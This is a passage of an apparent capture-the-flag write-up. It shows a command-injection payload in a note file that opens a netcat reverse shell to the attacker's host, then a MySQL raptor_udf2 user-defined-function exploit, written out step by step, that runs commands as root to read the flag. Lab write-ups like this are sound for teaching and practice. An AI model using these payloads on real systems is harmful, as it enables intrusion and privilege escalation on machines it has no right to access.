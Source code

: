I created a file named note.md containing the following rever shell oneliner: `' rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.182 4444 >/tmp/f; #`. 

We then get a reverse shell when exporting the note:

```console
┌──(bitis㉿workstation)-[~]
└─$ nc -lvnp 4444            
listening on [any] 4444 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.146.253] 34658
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```

## Privilege escalation
After adding our public key to the authorized_keys file we can ssh in as the svc user to get a more stable shell. 

Since we had credentials to the mysql database, and since mysqld was running as root, it might be interesting to try the exploit found [here](https://www.exploit-db.com/exploits/1518). I ran the following commands to get the flag:

```console
MariaDB [mysql]> create table foo(line blob);
Query OK, 0 rows affected (0.014 sec)

MariaDB [mysql]> insert into foo values(load_file('/home/svc/raptor_udf2.so'));
Query OK, 1 row affected (0.004 sec)

MariaDB [mysql]> show variables like '%plugin%';
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
2 rows in set (0.002 sec)

MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.001 sec)

MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.001 sec)

MariaDB [mysql]> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
1 row in set (0.001 sec)

MariaDB [mysql]> select do_system('cat /root/root.txt > /tmp/flag.txt;chown svc:svc /tmp/flag.txt');
+-----------------------------------------------------------------------------+
| do_system('cat /root/root.txt > /tmp/flag.txt;chown svc:svc /tmp/flag.txt') |
+-----------------------------------------------------------------------------+
|                                                                           0 |
+-----------------------------------------------------------------------------+
1 row in set (0.005 sec)

MariaDB [mysql]> \! sh
$ cat /tmp/flag.txt
```